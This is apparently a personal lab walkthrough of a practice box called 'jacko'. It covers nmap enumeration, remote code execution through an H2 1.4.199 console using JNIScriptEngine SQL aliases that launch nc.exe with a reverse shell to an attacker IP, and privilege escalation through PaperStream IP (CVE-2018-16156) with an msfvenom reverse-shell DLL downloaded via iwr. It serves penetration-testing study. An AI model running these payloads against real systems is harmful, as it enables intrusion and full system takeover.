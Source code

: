 # Network Enumeration

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/jacko]                                                         
└─$ nmap -r -v --min-rate=1500 -p- -oN 001-nmap-tcp-full 192.168.183.66
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8082/tcp  open  blackice-alerts
9092/tcp  open  XmlIpcRegSvc

PORT     STATE  SERVICE       VERSION                           
80/tcp   open   http          Microsoft IIS httpd 10.0          
| http-methods:                                                 
|_  Potentially risky methods: TRACE                            
|_http-title: H2 Database Engine (redirect)                     
|_http-server-header: Microsoft-IIS/10.0                        
5040/tcp open   unknown                                         
7680/tcp closed pando-pub                                       
8082/tcp open   http          H2 database http console          
|_http-title: H2 Console                                        
9092/tcp open   XmlIpcRegSvc?                                   

```



## Port enumeration

### Port 8082 H2 console

That's a login page for port 8082, try to directly login

<img src="../Images/image-20230818223547242.png" alt="image-20230818223547242" style="zoom:80%;" />



It work. Then check the version is `H2 1.4.199`

<img src="../Images/image-20230818223621038.png" alt="image-20230818223621038" style="zoom:80%;" />



Search on google with this version.

<img src="../Images/image-20230818223642086.png" alt="image-20230818223642086" style="zoom:80%;" />

There is a `JNI Code Execution` for this version, try it out.

<img src="../Images/image-20230818223420413.png" alt="image-20230818223420413" style="zoom:80%;" />

<img src="../Images/image-20230818223435080.png" alt="image-20230818223435080" style="zoom:80%;" />

<img src="../Images/image-20230818223453723.png" alt="image-20230818223453723" style="zoom:80%;" />

<img src="../Images/image-20230818225551064.png" alt="image-20230818225551064" style="zoom:80%;" />

Wow it's working, now try to running other commands.

Use `smbserver` to create a `smb` session. Then running on target.

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/jacko]
└─$ python3 smbserver.py -smb2support share /home/aaron/Desktop/pg/jacko 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

```

```sql
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd /c //192.168.45.231/Share/nc.exe").getInputStream()).useDelimiter("\\Z").next()');
```



<img src="../Images/image-20230818230634440.png" alt="image-20230818230634440" style="zoom:80%;" />

```sql
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd /c //192.168.45.231/Share/nc.exe 192.168.45.231 8082 -e cmd").getInputStream()).useDelimiter("\\Z").next()');

```

Then get shell from target.

<img src="../Images/image-20230818231000793.png" alt="image-20230818231000793" style="zoom:80%;" />

# PE

But this `cmd` can't running any common commands. So fix the system path.

```powershell
set PATH=%SystemRoot%\system32;%SystemRoot%;
```

Then can running the commands.

<img src="../Images/image-20230818231628285.png" alt="image-20230818231628285" style="zoom:80%;" />

Check `Program Files(x86)` we can see the `PaperStream IP` in here. And check the `TWAIN\readmeenu.rtf` can get the version of `PaperStream IP` is 1.42.

<img src="../Images/image-20230818232026070.png" alt="image-20230818232026070" style="zoom:80%;" />

Search on google can see there are Local PE for this version.

<img src="../Images/image-20230818232157133.png" alt="image-20230818232157133" style="zoom:80%;" />

Check the details.

<img src="../Images/image-20230818232216168.png" alt="image-20230818232216168" style="zoom:80%;" />

Because of this application is under the `Program Files(x86)`, so that I can't generate x64 verion.

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/jacko]                                                 
└─$ msfvenom -p windows/shell_reverse_tcp -f dll -o UninOldIS.dll LHOST=tun0 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload 
[-] No arch selected, selecting arch: x86 from the payload                             
No encoder specified, outputting raw payload                                           
Payload size: 324 bytes                                                                
Final size of dll file: 9216 bytes                                                     
Saved as: UninOldIS.dll

┌──(aaron㉿aaron)-[~/Desktop/pg/jacko]
└─$ searchsploit -m 49382   
  Exploit: PaperStream IP (TWAIN) 1.42.0.5685 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/49382
     Path: /usr/share/exploitdb/exploits/windows/local/49382.ps1
    Codes: CVE-2018-16156
 Verified: True
File Type: ASCII text
Copied to: /home/aaron/Desktop/pg/jacko/49382.ps1
```

Then download them.

```powershell
c:\Program Files (x86)\PaperStream IP\TWAIN>C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ep bypass

PS C:\users\tony> iwr -uri http://192.168.45.231/49382.ps1 -o exploit.ps1                                         
iwr -uri http://192.168.45.231/49382.ps1 -o exploit.ps1        

PS C:\users\tony> iwr -uri http://192.168.45.231/UninOldIS.dll -o C:\Windows\Temp\UninOldIS.dll                   
iwr -uri http://192.168.45.231/UninOldIS.dll -o C:\Windows\Temp\UninOldIS.dll                                     

```

Running script.

<img src="../Images/image-20230818233131705.png" alt="image-20230818233131705" style="zoom:80%;" />

Get Administrator.

<img src="../Images/image-20230818233229820.png" alt="image-20230818233229820" style="zoom:80%;" />
